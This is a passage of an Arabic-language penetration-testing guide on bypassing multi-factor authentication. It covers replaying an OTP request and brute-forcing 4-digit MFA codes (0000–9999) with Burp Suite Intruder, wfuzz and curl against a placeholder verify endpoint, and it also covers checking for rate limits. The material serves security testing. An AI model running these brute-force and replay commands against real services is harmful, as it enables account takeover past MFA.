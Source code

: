     ```bash
    curl -X POST -d "username=test@example.com&password=password&otp_code=1234" https://target.com/mfa/verify
    ```
  - Burp Suite Repeater:
    - احفظ طلب التحقق من OTP.
    - كرر الطلب بنفس الرمز.

---

#### **المحاولة السادسة: اختبار هجمات Brute Force على رموز MFA**
**الهدف**: نشوف إذا كان رموز MFA عرضة للتخمين عبر هجمات Brute Force.
- **الخطوات**:
  1. سجل دخول واطلب رمز MFA.
  2. حلل طول الرمز (مثل 4 أرقام أو 6 أرقام).
  3. لو الرمز قصير، استخدم Burp Suite Intruder أو wfuzz عشان تجرب أكواد مختلفة (مثل `0000` إلى `9999`).
  4. أرسل طلبات للتحقق من OTP بأكواد مختلفة:
     - مثل `https://target.com/mfa/verify?otp_code=0000`.
  5. راقب الردود:
     - لو لقيت رمز صالح (رد 200 OK أو Redirect)، يبقى الرمز ضعيف.
     - تحقق إذا الموقع بيفرض Rate Limiting أو CAPTCHA بعد محاولات متكررة.
  6. لو مفيش قيود على المحاولات، يبقى فيه ثغرة خطيرة.
- **البيانات اللي هنجربها**:
  - رموز: `0000` إلى `9999` (لو 4 أرقام) أو أكواد عشوائية.
  - طلب: `https://target.com/mfa/verify?otp_code=[CODE]`.
- **النتيجة المتوقعة**:
  - نجاح: رمز تم تخمينه أو مفيش قيود على المحاولات، يعني MFA ضعيفة.
  - فشل: الموقع بيقفل الحساب أو بيفرض قيود بعد محاولات قليلة.
- **الأدوات**:
  - **Burp Suite Intruder**:
    - حدد حقل `otp_code` كـ Payload Position.
    - استخدم قائمة أكواد (مثل `0000` إلى `9999`).
  - **wfuzz**:
    ```bash
    wfuzz -c -z range,0000-9999 --hc 404 -d "otp_code=FUZZ" https://target.com/mfa/verify
    ```
  - **cURL**:
    ```bash
    curl -X POST -d "otp_code=0000" https://target.com/mfa/verify
    ```
- **الأوامر**:
  - wfuzz:
    ```bash
    wfuzz -c -z range,0000-9999 --hc 404 -d "otp_code=FUZZ" https://target.com/mfa/verify
    ```
  - cURL:
    ```bash
    curl -X POST -d "otp_code=0000" https://target.com/mfa/verify
    ```

---